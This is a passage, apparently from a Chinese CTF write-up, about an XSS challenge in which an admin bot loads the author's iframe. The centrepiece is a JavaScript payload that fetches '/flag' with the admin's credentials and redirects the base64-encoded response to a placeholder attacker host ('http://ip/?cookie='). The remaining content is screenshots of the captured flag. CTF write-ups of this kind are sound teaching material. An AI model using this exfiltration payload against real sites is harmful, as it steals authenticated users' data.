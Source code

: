 结果一目了然；

而iframe里面`<script>`指向的JS：

```js
xmlhttp = new XMLHttpRequest();
//是否能跨域
xmlhttp.withCredentials = true;
xmlhttp.onreadystatechange = function() {
    if (xmlhttp.readyState == 4) {
        location.href = 'http://ip/?cookie=' + btoa(xmlhttp.responseText)
        //得用btoa()进行base64编码，不然flag会很神必
        //尝试getAllResponseHeaders()不行，因为HttpOnly的Set-Cookie头不适用
    }
};
//设置连接信息
//第一个参数表示http的请求方式，支持所有http的请求方式，主要使用get和post
//第二个参数表示请求的url地址，get方式请求的参数也在url中
//第三个参数表示采用异步还是同步方式交互，true表示异步
xmlhttp.open('GET', '/flag', true);
//4.发送数据，开始和服务器端进行交互
//同步方式下，send这句话会在服务器段数据回来后才执行完
//异步方式下，send这句话会立即完成执行
xmlhttp.send('');
```

不能绕HttpOnly来获取cookie，但是我们可以直接让admin请求`/flag`，把responseText发给我们就行了；

这个是本地打的结果：

![image-20210220172727362](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210220172735.png)

大手一抖，flag到手：

![image-20210220175430475](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210220175431.png)

因为flag里面出题人故意放了`&`字符让我们踩坑，打出来的responseText需要base64编码。

![image-20210220172930232](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210220175441.png)

下面这个才对。

![image-20210220173313149](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210220175445.png)